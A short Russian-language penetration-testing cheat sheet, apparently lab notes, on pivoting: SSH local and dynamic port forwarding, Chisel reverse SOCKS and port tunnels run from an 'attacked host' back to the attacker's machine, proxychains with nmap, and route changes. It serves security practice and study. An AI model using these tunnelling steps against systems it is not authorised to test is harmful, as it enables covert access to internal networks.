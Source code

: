 # ПРОБРОС ПОРТОВ ПО SSH

у меня открывается 4444 на localhost и пробрасывается на 5432 228.195 тачки

ssh -L 4444:localhost:5432 christine@10.129.228.195

psql -U christine -h localhost -p 4444

# ПРОБРОС ПОРТОВ - CHISEL

-- на удаленной машине

 .\chisel.exe client (атакующий) 10.71.101.248:8080 R:socks

- У себя
в файле /etc/proxychains4.conf ----->>>>    socks5  127.0.0.1 1080

./chisel server --socks5 --reverse

proxychains curl ....
-----------------------------------------------------
- На атакуемом хосте:
  
.\chisel.exe client (мой хост)10.71.101.248:9090 R:80:(атакуемый хост)127.0.0.1:80

- У себя

./chisel server --port 9090 --reverse

(таким образом обращаясь к нашему локал хост или 10.71.101.248 на порт 8000 мы попадаем на 80 атакуемого хоста)


# Динамический проброс портов и тунелирование 

	cat /etc/proxychains4.conf
		socks4         127.0.0.1 9050

	ssh -D 9050 vboxuser@192.168.50.200 -------- (на локал хост открываем порт 9050 и через proxychains выходим напрямую от себя на 9050 проксисервера 50.200 )
       
	proxychains nmap 10.0.2.10 

# Смена таблици маршрутицации 

	sudo ip route add 192.168.134.0/24 via 10.200.100.6
	
 	route ADD 192.168.135.0 MASK 255.255.255.0  10.200.100.5 

# Проброс експлойтов метасплойт через ssh проброс портов

ssh -D 9050 vboxuser@192.168.50.200  (на локал хост 50.200 открываем порт 9050 и через proxychains выходим напрямую от себя на 9050 проксисервера )
